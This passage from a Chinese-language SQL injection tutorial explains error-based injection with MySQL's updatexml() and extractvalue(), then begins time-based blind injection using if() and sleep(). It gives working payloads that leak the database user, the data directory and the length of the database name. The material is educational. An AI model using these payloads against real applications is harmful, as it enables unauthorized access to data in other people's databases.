 思考的是如何让它进行报错，且显示出我们想要的信息。

介绍几个函数

- updatexml()：[给一篇分析文章](https://www.cnblogs.com/MiWhite/p/6228491.html) 

  有三个参数：

  - 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 
  - 第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。 
  - 第三个参数：new_value，String格式，替换查找到的符合条件的数据 

  常见的写法如下，**concat函数**返回结果为连接参数产生的字符串。如有任何一个参数为NULL ，则返回值为 NULL。

  ```sql
  1' union select updatexml(1,concat(0x7e,(SELECT user()),0x7e), 1); #
  ```

  出现报错为：`出现报错为：ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'`

  这样可以发现当前连接数据库的用户的名为：root

  其实就是**contact连接的字符串不符合语法导致爆出我们传入的参数**。

- extractvalue()：

  EXTRACTVALUE (XML_document, XPath_string); 

  - 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 
  - 第二个参数：XPath_string (Xpath格式的字符串)

  payload：

  ```sql
  and extractvalue(null,concat(0x7e,(select @@datadir),0x7e));
  ```

  



##### 盲注

盲注就是开发人员对错误日志进行了屏蔽，我们无法通过错误日志直观的获取是否可以进行sql注入，我们需要做的就是**创造除错误日志以外的差异性变化**来判断。下面介绍几种办法。

###### 执行时间变化

先贴一片博客：[基于时间的 SQL注入研究](https://www.cnblogs.com/blacksunny/p/8056101.html)

需要用到if语句，这里做一个简单介绍：

```sql
-- expr1 表达式返回为true的话，执行expr2并返回结果，如果否则执行expr3的并返回
If(expr1,expr2,expr3)
```

先用mysql操作一下命令：

```sql
-- 判断数据库名字长度是否大于1
select * from course where Cno='1' and if (length(database())>1, sleep(5), 1); #';
-- 判断数据库名字长度实发大于10
select * from course where Cno='1' and if (length(database())>10, sleep(5), 1); #';
-- 正常操作
select * from course where Cno='1' and if (length(database())>10, sleep(5), 1); #';
```
